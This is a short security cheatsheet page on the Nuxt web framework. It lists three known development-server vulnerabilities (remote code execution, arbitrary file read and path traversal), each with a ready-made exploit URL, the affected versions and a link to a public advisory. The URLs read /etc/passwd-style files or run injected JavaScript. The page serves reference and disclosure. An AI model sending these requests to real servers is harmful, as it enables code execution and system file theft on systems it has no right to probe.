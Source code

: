 ```yaml
---
title: "Nuxt"
description: "Cheatsheet on Nuxt"
lead: "Cheatsheet on Nuxt"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## Nuxt

[Nuxt](https://github.com/nuxt/nuxt) is an intuitive and extendable way to create type-safe, performant and production-grade full-stack web apps and websites with Vue 3.

## Vulnerabilities

### Remote Code execution 

- `http://localhost:3000/__nuxt_component_test__/?path=data%3Atext%2Fjavascript%2Cconsole%2Elog%28%22hello%21%22%29%3B`
- Version: <= v3.4.0-2 (development server)
- [Huntr -  RCE in developer mode in nuxt/nuxt](https://huntr.dev/bounties/1eb74fd8-0258-4c1f-a904-83b52e373a87/)

### Abritrary file read

- `http://localhost:3000/__nuxt_vite_node__/module//bin/passwd`
- Version: 3.0.0-RC8 - 3.4.1 (development server)
- [Huntr - (Almost) Arbitary File Read on Development Server in nuxt/nuxt](https://huntr.dev/bounties/7840cd32-af15-40cb-a148-7ef3dff4a0c2/)

### Path traversal

- http://localhost:3000/_nuxt/@fs/etc/passwd
- Version: <= rc12 (development server)
- [Huntr - Dev mode Path traversal in nuxt/framework](https://huntr.dev/bounties/4849af83-450c-435e-bc0b-71705f5be440/)
